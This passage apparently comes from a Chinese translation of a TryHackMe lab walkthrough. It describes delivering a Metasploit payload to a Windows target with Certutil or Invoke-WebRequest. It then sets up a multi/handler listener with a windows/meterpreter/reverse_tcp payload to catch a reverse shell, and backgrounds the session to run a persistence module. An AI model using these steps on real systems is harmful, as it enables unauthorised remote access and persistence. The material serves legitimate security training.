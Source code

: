 MSF 病毒组

2.将有效负载从攻击机器转移到目标机器。

![](img/9d5c279b3b2777b76a82b94e4c93cfbf.png)

http 服务器

您可以使用 Certutil 或 Invoke-WebRequest 命令来接收文件。

![](img/c6ec1460f3777aaa55e8a346abf3388d.png)

Certutil

3.`use exploit/multi/handler` -这将在您设置的端口上创建一个监听器。

4.将我们的有效负载配置为一个 windows meterpreter shell: `set payload windows/meterpreter/reverse_tcp`

5.将你的 THM IP 地址设置为“LHOST”后，用`run`启动监听器

6.在 windows 机器上执行二进制文件将会在您的主机上返回一个 meterpreter shell 让我们回到这个话题

7.验证我们已经获得了一个 meterpreter shell，然后我们将在其中`background`它来运行持久性模块。
